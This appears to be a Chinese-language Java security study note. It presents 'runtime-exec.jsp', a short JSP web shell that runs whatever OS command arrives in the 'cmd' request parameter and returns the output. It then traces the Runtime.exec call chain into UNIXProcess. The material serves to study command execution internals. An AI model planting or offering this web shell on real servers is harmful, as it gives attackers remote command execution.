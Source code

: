 #### runtime-exec.jsp

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
  InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
  ByteArrayOutputStream baos = new ByteArrayOutputStream();
  int a;
  byte[] bytes = new byte[1024];
  while ((a = in.read(bytes)) != -1){
    baos.write(bytes,0,a);
  }
  out.write("命令结果：\n" + baos);
%>
```

<img src="image/image-20230709180804827.png" alt="image-20230709180804827" style="zoom:80%;" />

##### Runtime.exec调用链

`Runtime.exec(xxx)`调用链如下:

```java
org.apache.jsp.runtime_002dexec_jsp._jspService(runtime_002dexec_jsp:114)
java.lang.Runtime.exec(Runtime.java:347)
java.lang.Runtime.exec(Runtime.java:450)
java.lang.Runtime.exec(Runtime.java:620)
java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)
java.lang.ProcessImpl.start(ProcessImpl.java:134)
//如果是Linux则继续跟进
java.lang.UNIXProcess.<init>(UNIXProcess.java:247)
```
